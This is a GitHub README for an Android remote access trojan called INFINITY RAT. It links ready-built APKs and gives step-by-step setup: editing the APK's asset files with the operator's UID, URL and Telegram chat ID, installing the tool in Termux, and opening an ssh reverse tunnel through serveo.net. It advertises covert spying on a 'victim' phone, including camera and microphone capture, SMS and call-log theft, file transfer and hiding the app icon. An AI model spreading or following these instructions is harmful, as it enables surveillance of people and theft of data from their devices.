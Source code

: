 # INFINITY RAT
![infinity](https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/3d071fda-f2df-4391-bfd8-d6e687ae9fd7)

## Application
- 𝙰𝙳𝙼𝙸𝙽 𝙿𝙰𝙽𝙴𝙻[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/Admin_Panel.apk)
- 𝙸𝙽𝙵𝙸𝙽𝙸𝚃𝚈 𝚁𝙰𝚃 [➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/INFINITY_RAT.apk)
- 𝙰𝙿𝙺 𝙴𝙳𝙸𝚃𝙾𝚁[➱](https://github.com/infinitynetwork13/INFINITY-RAT/raw/main/APP/APK_Editor.apk)
- 𝚃𝙴𝚁𝙼𝚄𝚇[➱](https://f-droid.org/repo/com.termux_118.apk)

## 𝐄𝐛𝐢𝐭 𝐀𝐩𝐩𝐥𝐢𝐜𝐚𝐭𝐢𝐨𝐧
- 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
```
𝙾𝚙𝚎𝚗 𝐀𝐩𝐤 𝐄𝐝𝐢𝐭𝐨𝐫
𝙲𝚕𝚒𝚌𝚔 𝐀𝐩𝐤 𝐅𝐢𝐥𝐞
𝚂𝚎𝚕𝚎𝚌𝚝 𝗜𝗡𝗙𝗜𝗡𝗜𝗧𝗬_𝗥𝗔𝗧.𝗮𝗽𝗸
𝚂𝚎𝚕𝚎𝚌𝚝 𝗦𝗶𝗺𝗽𝗹𝗲 𝗘𝗱𝗶𝘁
𝙲𝚕𝚒𝚌𝚔 𝗔𝘀𝘀𝗲𝘁𝘀
```
```
┌───𝗔𝘀𝘀𝗲𝘁𝘀
├──𝘂𝗶𝗱.𝘁𝘅𝘁
├─𝘂𝗿𝗹.𝘁𝘅𝘁
├𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁
```
- 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
```
𝙾𝚙𝚎𝚗 𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹
𝙲𝚕𝚒𝚌𝚔 𝗦𝗶𝗻𝗴 𝗶𝗻 𝗚𝗼𝗼𝗴𝗹𝗲
𝚂𝚎𝚕𝚎𝚌𝚝 𝗚𝗼𝗼𝗴𝗹𝗲 𝗮𝗰𝗰𝗼𝘂𝗻𝘁 
𝙲𝚘𝚙𝚢 𝚄𝙸𝙳
```

- 𝘂𝗶𝗱.𝘁𝘅𝘁
```
𝗔𝗱𝗺𝗶𝗻 𝗣𝗮𝗻𝗲𝗹 𝚄𝙸𝙳
```
- 𝘂𝗿𝗹.𝘁𝘅𝘁
```
𝚈𝚘𝚞𝚛 𝚅𝚒𝚌𝚝𝚒𝚖 𝚅𝚒𝚎w
𝘂𝗶𝗱 𝗘𝘅𝗮𝗺𝗽𝗹𝗲: http://www.google.com
```
- 𝗰𝗵𝗮𝘁_𝗶𝗱.𝘁𝘅𝘁

𝙲𝚕𝚒𝚌𝚔[@chat_id_echo_bot](https://t.me/chat_id_echo_bot)
![chat_id](https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/64017b30-3dec-4f49-98ca-99a763280001)


## 𝗧𝗲𝗿𝗺𝘀 𝗼𝗳 𝗨𝘀𝗲

ʏᴏᴜʀ ʜᴜɴᴛɪɴɢ ᴅᴇᴠɪᴄᴇ ᴡɪᴛʜ ᴛʜɪs ᴀᴘᴘ

```python
 ●𝙵𝚘𝚗𝚝 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙱𝚊𝚌𝚔 𝙲𝚊𝚖𝚎𝚛𝚊
 ●𝙼𝚒𝚌𝚛𝚘𝚙𝚑𝚘𝚗𝚎 𝚁𝚎𝚌𝚘𝚛𝚍 
 ●𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 𝙸𝚗𝚏𝚘
 ●𝙰𝚍𝚍 𝙲𝚘𝚗𝚝𝚊𝚌𝚝 𝙽𝚞𝚖𝚋𝚎𝚛 
 ●𝙲𝚊𝚕𝚕 𝙻𝚘𝚐 𝙸𝚗𝚏𝚘
 ●𝚃𝚎𝚛𝚐𝚊𝚝 𝙲𝚊𝚕𝚕
 ●𝚂𝚑𝚘𝚠 𝚃𝚘𝚊𝚜𝚝 𝙼𝚎𝚜𝚜𝚊𝚐𝚎
 ●𝚂𝚑𝚘𝚠 𝙽𝚘𝚝𝚒𝚏𝚒𝚌𝚊𝚝𝚒𝚘𝚗
 ●𝚁𝚎𝚌𝚎𝚒𝚟𝚎 𝚒𝚗𝚌𝚘𝚖𝚒𝚗𝚐 𝚂𝙼𝚂
 ●𝚂𝚎𝚗𝚍 𝚂𝚖𝚜
 ●𝚂𝚖𝚜 𝙻𝚒𝚜𝚝
 ●𝙰𝚙𝚙 𝙸𝚗𝚏𝚘 𝙻𝚒𝚜𝚝
 ●𝙾𝚙𝚎𝚗 𝙰𝚙𝚙
 ●𝚄𝚙𝚕𝚘𝚊𝚍 𝚏𝚒𝚕𝚎
 ●𝙳𝚘𝚠𝚗𝚕𝚘𝚊𝚍 𝙵𝚒𝚕𝚎
 ●𝙸𝚖𝚊𝚐𝚎 𝙻𝚒𝚜𝚝
 ●𝙷𝚒𝚍𝚎 𝙰𝚙𝚙 𝙸𝚌𝚘𝚗
 ●𝙿𝚕𝚊𝚢 𝙼𝚞𝚜𝚒𝚌
 ●𝙲𝚑𝚊𝚗𝚐𝚎  𝚅𝚒𝚎𝚠 𝚄𝚛𝚕
 ●𝚅𝚒𝚎𝚠 𝙰𝚗𝚍𝚛𝚘𝚒𝚍 𝚟𝚎𝚛𝚜𝚒𝚘𝚗
 ●𝚅𝚒𝚎𝚠 𝙳𝚎𝚟𝚒𝚌𝚎 𝙼𝚘𝚍𝚎𝚕
 ●𝚅𝚒𝚎𝚠 𝙱𝚊𝚝𝚝𝚎𝚛𝚢
 ●𝚅𝚒𝚎𝚠 𝚂𝚒𝚖 𝙲𝚊𝚛𝚍 𝙽𝚊𝚖𝚎
```

## 𝑨𝒑𝒑 𝑺𝒆𝒓𝒗𝒊𝒄𝒆
```Bash
 ●𝙱𝚊𝚌𝚔𝚐𝚛𝚘𝚞𝚗𝚍 𝚜𝚎𝚛𝚟𝚒𝚌𝚎 𝟸𝟺𝚑
 ●𝙲𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙳𝚒𝚜𝚌𝚘𝚗𝚗𝚎𝚌𝚝 > 𝙲𝚘𝚗𝚗𝚎𝚌𝚝
```
## Video
![](https://t.me/Infinity_info_network/35)
[view📹](https://t.me/Infinity_info_network/35)
## install Tool

```bash
pkg update -y
pkg upgrade -y
apt-get install python -y
apt-get install git -y
apt-get install wget -y
apt-get install openssh -y
apt-get install nodejs -y
pip install requests
git clone https://github.com/infinitynetwork13/INFINITY-RAT.git
```
- SSH
```bash
ssh -R 80:localhost:9999 serveo.net
```
`(yes/no/fingerprint) yes`
`CTRL + c`
## Past Time Run
```bash
cd INFINITY-RAT
bash install.sh
```
## Other Time Run
```bash
cd INFINITY-RAT
python infinity.py
```
## CONTACT
<div align="center">
<img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/2802c88a-f4e0-4380-9b60-6807cdf33446"/>
<img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/4acb85cb-3cf9-4e37-9d69-ce0e113be140"/>
<img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/146b4540-d231-4b62-bf02-32e2a9031439"/>
<img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/bc1bc5d1-c136-467a-9009-13b75c210c9f"/>
<img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/f38b2c93-46ab-48a5-b2a7-3cb693371ce6"/>
</div>

## Language
<div align="center">
	<a href="https://www.python.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/0d2f5917-138c-4fca-afc5-c166799e205d"/></a>
	<a href="https://nodejs.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/396c70c6-cc4f-4302-8d64-77e11f1914e0"/></a>
	<a href="https://www.gnu.org/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/575e3506-fee0-4f92-a7b9-0e9f0559438e"/></a>
	<a href="https://html.com/"><img width="35px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/df47658e-0450-48b5-b972-25a724cdfb65"/></a>
	<a href="https://www.free-css.com/"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/958b2e4d-f81f-4b38-8859-d25f262a0108"/></a>
	<a  href="https://developer.mozilla.org/en-US/docs/Web/JavaScript"><img width="30px" src="https://github.com/infinitynetwork13/INFINITY-RAT/assets/155347164/11834238-4725-4c28-8646-4a2fc124d829"/></a>
</div>
